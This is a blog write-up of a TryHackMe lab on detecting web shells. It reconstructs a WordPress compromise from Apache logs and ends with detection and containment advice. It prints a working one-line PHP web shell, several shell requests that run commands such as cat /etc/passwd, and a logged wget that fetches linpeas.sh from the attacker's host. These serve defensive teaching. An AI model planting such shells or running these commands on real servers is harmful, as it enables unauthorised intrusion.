






This is my walkthrough of the [Detecting Web Shells](https://tryhackme.com/room/detectingwebshells) room on TryHackMe, part of the Web Security Monitoring module in the SOC Level 1 path. The room covers how web shells execute commands on a compromised web server, how to correlate HTTP logs with host and network telemetry, and how to reconstruct a WordPress intrusion from Apache access logs.

## Web Shell Mechanics and Detection Layers

A web shell is a script uploaded to a web server that gives an attacker remote command execution over HTTP or HTTPS. In MITRE ATT&CK, this maps to sub-technique `T1505.003` (Server Software Component: Web Shell) under Persistence. Attackers usually plant one through an unvalidated file upload form, an exposed admin panel, or an RCE vulnerability in a web application. On Linux stacks running Apache or Nginx, web shells are almost always `.php` scripts; on Windows and Microsoft Exchange servers, attackers typically drop `.aspx` files, as seen in Hafnium (ProxyLogon) and Conti intrusions targeting `\inetpub\wwwroot\aspnet_client\`.

Most PHP web shells are small wrappers around built-in OS execution functions such as `system()`, `shell_exec()`, `exec()`, or `passthru()`, or dynamic code evaluation functions like `eval()`. When an attacker requests a URL like `shell.php?cmd=whoami`, PHP reads the `cmd` parameter from the URL query string, passes it to the underlying shell under the web server's service account, and returns stdout in the HTTP response.

Relying on a single log source makes web shell triage harder than it needs to be, because HTTP status codes alone do not prove code execution:

- Web server logs (`/var/log/apache2/access.log` on Apache) capture the client IP, timestamp, HTTP method, URI and query strings, status code, response size, and User-Agent. A burst of `404` responses from one IP followed by a `POST` to an upload script and repeated requests carrying `?cmd=` query strings or scripted User-Agents (`curl`, custom scanners) is the classic access-log footprint.
- Linux `auditd` logs fill the gap between HTTP requests and OS activity. An HTTP `200` on `POST /upload.php` only confirms the web server accepted the request; correlating that timestamp in `audit.log` (via `ausearch`) against the `creat` syscall confirms that the web server process actually wrote a new file to disk, while `execve` events show `www-data` spawning `/bin/sh`, `whoami`, or `wget`.
- Filesystem checks locate rogue scripts directly on disk. Running `find /var/www -type f -name "*.php"` lists all PHP files under the web root, which can be narrowed with `-newerct` around an incident window or paired with `grep -r "eval("` and `grep -r "system("` across writable folders like `/uploads/`, `/images/`, and `/tmp` (watching for double extensions such as `image.jpg.php`).
- Packet captures (PCAP) recover the full HTTP request and response bodies when access logs only record headers and URIs. In Wireshark, `http.request.method == "PUT"` (or `"POST"`) isolates file transfer attempts, `http.request.uri contains ".php"` narrows traffic to PHP endpoints, and `http.user_agent` surfaces command-line clients.

> On database-backed platforms like WordPress or Django, page templates, plugins, and settings often live inside the database rather than static files under `/var/www/`. If access logs and `execve` events point to command execution but `find` turns up nothing new on disk, check database tables and active theme templates as well.
{: .prompt-info }

## Hands-On: Running Commands Through a PHP Web Shell

Task 3 provides a sample PHP web shell hosted on the lab VM at `http://10.113.184.188:8080/files/awebshell.php` so you can observe how browser input translates into URL query strings on the wire.

Submitting `whoami` in the command box sends a `GET` request to `http://10.113.184.188:8080/files/awebshell.php?cmd=whoami`. The script executes under the Apache worker account and prints `www-data`:



Running `ls` in the same form shows a `flag.txt` file in `/files/`. Reading it with `cat flag.txt` submits `http://10.113.184.188:8080/files/awebshell.php?cmd=cat+flag.txt` (with the space URL-encoded as `+`) and returns `THM{W3b_Sh3ll_Usag3}`:



## Case Investigation: Compromised WordPress Site

Task 6 moves to the defensive side. A WordPress server is suspected of compromise, and we have terminal access on the host (`ubuntu@tryhackme`) with Apache logs stored in `/var/log/apache2/access.log`.

### 1. Identifying the Attacker IP and Directory Enumeration

After moving into `/var/log/apache2/` and listing the available logs (`access.log`, `error.log`, `other_vhosts_access.log`), I filtered `access.log` for `404` responses to check for directory brute-forcing:

```bash
cat /var/log/apache2/access.log | grep "404"
```



Starting at `17/Jul/2025:05:21:55 +0000`, external IP `203.0.113.66` fires a rapid sequence of `GET` requests (ten or more per second) using the custom User-Agent `ashadyagent/1.1`. Within four seconds (`05:21:55` to `05:21:59`), the scanner probes `/dev`, `/wp-admin`, `/themes`, `/config`, `/register`, `/core`, `/devtools`, `/wp-includes`, `/db_backup`, `/wp-content`, `/test`, `/debug`, `/old`, `/admin`, `/staging`, `/tmp`, `/adminer`, `/hidden`, `/secret`, `/shell`, `/scripts`, `/admin-panel`, `/login`, `/custom-plugin`, `/file-uploader`, `/uploads`, and `/custom-theme`, all returning HTTP `404` (`273` bytes). That makes `203.0.113.66` our primary attacker IP.

### 2. Separating Admin Traffic and Finding the First Valid Directory

Next, I filtered `access.log` for HTTP `200` status codes to see what actually resolved on the server and separate legitimate WordPress usage from the scanner:



Two distinct patterns show up right away:

- Between `05:20:11` and `05:20:23`, internal host `192.168.1.2` interacts normally with `/wordpress/wp-admin/` (`admin-ajax.php`, `edit.php`, `profile.php`, `load-scripts.php`) using Chrome 137 on Windows 10, then logs out cleanly via `GET /wordpress/wp-login.php?loggedout=true&wp_lang=en_US`.
- At `05:21:55`, `203.0.113.66` (`ashadyagent/1.1`) hits the web root `/` (`200`, `3121` bytes). Four seconds later, at `05:21:59`, it lands its first valid directory hit on `/wordpress` (`GET /wordpress HTTP/1.1`, `200`, `10914` bytes), explaining why earlier probes against root-level `/wp-admin` and `/wp-content` had returned `404`.

Once `/wordpress` is found, `ashadyagent/1.1` pivots into subdirectories at `05:22:06` and `05:22:16`, enumerating `/wordpress/wp-content/`, `/wordpress/wp-login.php`, `/wordpress/wp-content/uploads/`, and an exposed upload script at `/wordpress/wp-content/uploads/upload_form.php` (`200`, `3435` bytes).

### 3. Web Shell Upload via `upload_form.php`

Scrolling down to the rest of the `200` entries shows a 47-minute pause after reconnaissance ends at `05:22:25`. At `06:09:27`, `203.0.113.66` returns, drops the scanner User-Agent in favor of `curl/8.14.1`, and uploads a PHP payload through `upload_form.php`:

```text
203.0.113.66 - - [17/Jul/2025:06:09:27 +0000] "POST /wordpress/wp-content/uploads/upload_form.php?file=shadyshell.php HTTP/1.1" 200 204 "curl/8.14.1"
```



The vulnerable PHP file abused to drop the payload is `upload_form.php`, sitting directly inside the world-writable `/wordpress/wp-content/uploads/` directory. At `06:12:23`, the attacker sends a plain `GET /wordpress/wp-content/uploads/shadyshell.php` (`200`, `456` bytes) to verify the uploaded script is reachable before running commands.

### 4. Command Execution and `linpeas.sh` Staging

Two minutes after verifying the upload, `203.0.113.66` starts passing system commands through the `?cmd=` parameter using `curl/8.14.1`:



Reading down the log reconstructs the exact post-exploitation sequence:

1. `06:14:55`: `shadyshell.php?cmd=whoami` (`200`, `10` bytes), confirming the first command executed through the web shell is `whoami`.
2. `06:15:11`: `shadyshell.php?cmd=id` (`200`, `55` bytes) to inspect numeric UID, GID, and group memberships.
3. `06:15:53`: `shadyshell.php?cmd=uname%20-a` (`200`, `111` bytes) to check the Linux kernel build for local privilege escalation exploits.
4. `06:16:28`: `shadyshell.php?cmd=ls%20-la%20/home` (`200`, `273` bytes) to list local user accounts on the box.
5. `06:16:38` and `06:18:39`: `shadyshell.php?cmd=cat%20/etc/passwd` (`200`, `2174` bytes). Interestingly, the `06:16:38` request originates from internal IP `192.168.1.10` with the same `curl/8.14.1` User-Agent before `203.0.113.66` runs the identical command two minutes later. Because `shadyshell.php` has no authentication, any host that knows the path can invoke it, though `203.0.113.66` drives the entire intrusion from initial scan to tool staging.
6. `06:20:36`: `shadyshell.php?cmd=wget%20http://203.0.113.66:8000/linpeas.sh` (`200`, `1` byte). Having finished basic enumeration, the attacker pulls down a second file, `linpeas.sh`, from an HTTP server listening on port `8000` of `203.0.113.66` to automate Linux privilege escalation checks.

### 5. Inspecting `shadyshell.php` on Disk

To finish the investigation, I navigated to `/var/www/html/wordpress/wp-content/uploads` and opened `shadyshell.php` (you can read it with `cat shadyshell.php` or open it in `nano`):

```php
<?php system($_GET['cmd']); ?>

<!-- FLAG: THM{W3b_Sh3ll_Int3rnals} -->
```

![Viewing shadyshell.php in nano showing system($_GET['cmd']) and the hidden flag](/assets/img/posts/2026-10-17-tryhackme-detecting-web-shells/07-shadyshell-source-flag.png)

The shell itself is a single unauthenticated `system($_GET['cmd'])` one-liner, followed by an HTML comment containing the flag `THM{W3b_Sh3ll_Int3rnals}`. Notice how that trailing HTML comment also explains why the bare `GET /wordpress/wp-content/uploads/shadyshell.php` check at `06:12:23` returned a `200` response body even without a `cmd` parameter supplied.

## Incident Timeline and Containment

| Timestamp (UTC) | Source IP | User-Agent | Activity |
| --- | --- | --- | --- |
| `2025-07-17 05:20:11` | `192.168.1.2` | `Chrome/137.0.0.0` | Normal WordPress admin session and logout at `05:20:23` |
| `2025-07-17 05:21:55` | `203.0.113.66` | `ashadyagent/1.1` | Directory brute-force generating `404` responses across root paths |
| `2025-07-17 05:21:59` | `203.0.113.66` | `ashadyagent/1.1` | First valid directory discovered at `/wordpress` (`200`) |
| `2025-07-17 05:22:16` | `203.0.113.66` | `ashadyagent/1.1` | Exposed upload script found at `/wordpress/wp-content/uploads/upload_form.php` |
| `2025-07-17 06:09:27` | `203.0.113.66` | `curl/8.14.1` | `POST` upload of `shadyshell.php` via `upload_form.php` |
| `2025-07-17 06:14:55` | `203.0.113.66` | `curl/8.14.1` | Interactive discovery via `?cmd=` (`whoami`, `id`, `uname -a`, `ls -la /home`, `cat /etc/passwd`) |
| `2025-07-17 06:20:36` | `203.0.113.66` | `curl/8.14.1` | Staged `linpeas.sh` from `http://203.0.113.66:8000/linpeas.sh` via `wget` |

In a live SOC environment, closing out this alert would require a few immediate containment and hardening actions:

- Block `203.0.113.66` at the perimeter firewall (both inbound HTTP and outbound callbacks to port `8000`) and investigate internal host `192.168.1.10` to determine why it queried `shadyshell.php` at `06:16:38`.
- Quarantine and remove `shadyshell.php`, `upload_form.php`, and any downloaded copy of `linpeas.sh` (checking both `/var/www/html/wordpress/wp-content/uploads/` and `/tmp/`), then review `auditd`, cron jobs, SSH `authorized_keys`, and WordPress database tables for secondary persistence planted after `06:20:36`.
- Disable PHP script execution inside `/var/www/html/wordpress/wp-content/uploads/` in the Apache configuration (`php_admin_flag engine off` or denying `.php` handler matching in upload directories) and enforce server-side allowlists on file extensions and MIME types for any legitimate upload workflow.

*The lab and the analysis are mine. I used Gemini to help structure my notes and edit the post.*
